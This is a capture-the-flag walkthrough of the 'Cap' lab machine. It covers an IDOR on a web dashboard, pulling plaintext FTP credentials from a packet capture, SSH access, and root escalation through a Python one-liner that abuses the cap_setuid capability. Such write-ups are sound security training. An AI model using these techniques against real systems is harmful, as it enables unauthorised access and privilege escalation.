 # Cap
Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root.

## Recon
Scan open ports by running `nmap` scan.
![Open Ports](./open%20ports.png)

The ports 21, 22, and 80 are open.

Open up the address on port 80 for the web application to find the Security Dashboard.
![Security dashboard](./dashboard.png)

Got to the tab that says Security Snapshot", which should redirect towards `/data/2`. Perform an IDOR attack by going to `/data/0`. Download the pcap file for that user.

Open up `0.pcap` in Wireshark. Scroll down to find packets using FTP and follow its stream to find sensitive information.
![FTP stream](./FTP%20stream.png)

Login details
```
Username: nathan
Password: Buck3tH4TF0RM3!
```

Since we saw SSH open from the namp scan, use the login credentials to SSH into nathan's account.
![SSH](./SSH.png)

There is a `user.txt` file which contains the flag.

For finding priv esc with root, run `getcap -r / 2>/dev/null` to find files that could be used to esclate privileges.
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`/usr/bin/python3.8` is Python which could be abused with [GTFOBins](https://gtfobins.github.io/gtfobins/python/)

To become root user, run the command: 
```
python3 -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’
```

Go into the `/root` folder and read the `root.txt` file for the flag.
